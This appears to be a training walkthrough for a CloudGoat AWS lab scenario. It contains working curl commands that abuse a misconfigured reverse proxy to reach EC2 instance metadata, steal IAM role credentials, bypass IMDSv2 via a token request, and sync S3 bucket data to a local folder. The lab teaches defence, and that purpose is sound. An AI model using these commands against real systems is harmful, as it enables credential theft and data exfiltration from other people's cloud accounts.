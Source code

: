 # Scenario 2 - Cloud Breach s3

cloud_breach_s3

## What is the scenario

The scenario begins with an IP address.

The objective is to exfiltrate sensitive data from an S3 bucket.

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/README.md

## Setting up the scenario

        python3 cloudgoat.py create cloud_breach_s3

## Walkthrough

### Exploitation Route

![exploitation-route](imgs/scenario2-11.png)

### Step by step instructions

This scenario assumes that as an attacker we have reached an IP address after some reconnaissance. We have also figured out that the service on port 80 of the IP address is acting as a reverse-proxy server.

This is a common real-world scenario where as attackers we run into reverse-proxy or application layer "edge router" such a Nginx or Traefik etc which forward the requests to appropriate service based on the Host header in HTTP requests.

As attackers, we can exploit reverse-proxy server with overly permissive configuration to reach internal applications that we can't reach otherwise. This attack get's even more severe in cloud resources because of "Instance Metadata".

> Instance metadata is data about your instance that you can use to configure or manage the running instance. Instance metadata can be accessed at the IP address 169.254.169.254 which is a link-local address and is valid only from the instance. You can read more about IMDS data retrieval here https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html

Let's verify if we can exploit the reverse-proxy server to reach out to EC2 instance metadata service (IMDS). We are using curl HTTP client to make a HTTP request to retrieve metadata and we are adding a "Host" header whose value points to IP address of IMDS service. If the reverse-proxy server has overly permissive configuration then the request will be forwarded to IMDS service and it will return some metadata related information.

        curl -s http://<ec2-ip-address>/latest/meta-data/ -H 'Host:169.254.169.254'

        curl -s \
        http://54.196.109.217/latest/meta-data/local-ipv4 \
        -H 'Host:169.254.169.254'

![metadata](imgs/scenario2-1.png)

![metadata-localipv4](imgs/scenario2-2.png)

Now it is evident that the reverse-proxy server has overly permissive configuration that we can exploit to access AWS EC2 IMDS.

From an external attacker point of view, one of the most lucrative information stored in IMDS is IAM role credentials. If we can steal IAM role credentials, we can do whatever the IAM role is allowed to do. In real world, it is quite common for an E2 instance to have IAM roles that they use to interact with other services in the AWS account such as S3 Buckets.

Let's go ahead and extract any IAM role credentials that are accessible via IMDS on this EC2 Instance.

        curl -s \
        http://54.196.109.217/latest/meta-data/iam/security-credentials/ \
        -H 'Host:169.254.169.254'

![role-name](imgs/scenario2-3.png)

        curl -s \
        http://54.196.109.217/latest/meta-data/iam/security-credentials/ROLE-NAME \
        -H 'Host:169.254.169.254'

![role-credentials](imgs/scenario2-4.png)

The IAM role credentials we have stolen can be used like any other IAM identity credentials. To enumerate what can be done using the role credentials, we will create a named profile using AWS CLI but notice that the IAM role credentials are short lived and have a session token. The session token has to be manually added to the profile in the file `~/.aws/credentials`

        aws configure --profile stolen-creds

![add-session-token](imgs/scenario2-5.png)

We'll use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify the role permissions. 

        python enumerate-iam.py --access-key ACCESS-ID --secret-key SECRET-KEY --session-token SESSION-TOKEN

![enumerate-permissions](imgs/scenario2-8.png)

Notice that the IAM role has permission to list s3 buckets in the account. Let's use AWS CLI to list the buckets and download any data stored on the s3 buckets.

        aws s3 ls --profile stolen-creds
        aws s3 sync s3://BUCKET-NAME ./cardholder-data --profile stolen-creds

![bucket-list](imgs/scenario2-6.png)

![download-objects](imgs/scenario2-7.png)


## Extra mile

IMDS has been [widely exploited](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90) using web application vulnerabilities such as Server Side Request Forgery (SSRF), Command Injection etc in web applications running on EC2 to gain access to IAM credentials.

AWS released an update to EC2 instance metadata service which is used for querying instance metadata values. This new release, IMDSv2, according to AWS is a defence in depth against open firewalls and SSRF vulnerabilities. IMDSv2 needs a session token for making any request to the service. This token can only be obtained by making a specific request using the HTTP PUT method. You can read more about IMDSv2 at https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650

Although IMDSv2 effectively mitigates most SSRF attacks, it still cannot mitigate security issues like mis-configured reverse-proxy servers such as the one we exploited.

Let's upgrade the vulnerable EC2 instance from IMDSv1 to IMDSv2. We need the latest AWS CLI ( >=1.16.287) that supports IMDSv2. Notice that we are using `cloudgoat` profile which is an Admin user to update EC2 instance from IMDSv1 to IMDSv2.

        pip3 install awscli
        pip3 upgrade awscli

        aws ec2 modify-instance-metadata-options \
        --instance-id <INSTANCE-ID> --profile cloudgoat \
        --http-endpoint enabled --http-token required

Let's exploit IMDS v2 using the mis-configured reverse proxy.

We can generate the token for accessing metadata endpoint with the below HTTP PUT request and store the token in a environment variable `$TOKEN`.

        export TOKEN=`curl -X PUT \
        -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" \
        "http://54.196.109.217/latest/api/token" \
        -H "Host:169.254.169.254"`

![generate-token](imgs/scenario2-10.png)

For further calls, we will use the security token obtained as part of the HTTP request header.

![get-localipv4](imgs/scenario2-9.png)

## Destroy the scenario resources

        python3 cloudgoat.py destroy cloud_breach_s3

## References


- [IAM Roles](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles.html)
- [Instance Metadata and User Data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
- [Retrieving Instance Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
- [Finding SSRF via HTML Injection inside a PDF file on AWS EC2](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90)
- [Instance Metadata API: A Modern Day Trojan Horse](https://redlock.io/blog/instance-metadata-api-a-modern-day-trojan-horse)
- [Trust No One: The Perils of Trusting User Input](https://www.nginx.com/blog/trust-no-one-perils-of-trusting-user-input/)
- [Getting started with Version 2 of AWS EC2 Instance Metadata service (IMDSv2)](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)


